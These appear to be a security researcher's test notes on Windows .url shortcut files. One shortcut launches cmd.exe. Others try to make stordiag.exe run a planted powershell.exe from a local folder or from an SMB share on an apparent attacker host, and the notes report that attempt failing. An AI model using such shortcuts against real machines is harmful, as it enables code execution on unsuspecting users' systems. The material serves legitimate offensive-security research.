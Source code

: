 - Tested on
	- Windows 10 1809 
	- Windows 10 1909 
	- Windows 10 21H2
	- Windows 11 23H2

- All images and scripts are from testing on Windows 10 1909.
### URL File to open CMD
```Script
[InternetShortcut]
Url=C:\Windows\System32\cmd.exe
```
- Double clicking on the url file opens cmd.

### URL file that runs stordiag.exe in a remote directory
```Script
[InternetShortcut]
URL=C:\Windows\System32\stordiag.exe
WorkingDirectory=\\Desktop-attacke\smb
```
- Does not work as expected.
- Traced the execution using procmon. 
![](Attachments/Pasted%20image%2020240801010229.png)
- Folder is being accessed by the program but `powershell.exe` file is not being run.

### URL file that runs stordiag.exe in a local directory (debugging)
```Script
[InternetShortcut]
URL=C:\Windows\System32\stordiag.exe
WorkingDirectory=C:\Users\test\Music
```
- Traced execution using procmon.
![](Attachments/Pasted%20image%2020240801010717.png)
- Folder is being accessed by the program but `powershell.exe` file is not being run.

### Additional Notes
- `powershell.exe` file is not being run by stordiag.exe
- procmon displayed "PATH NOT FOUND" error when local working directory was used in windows 11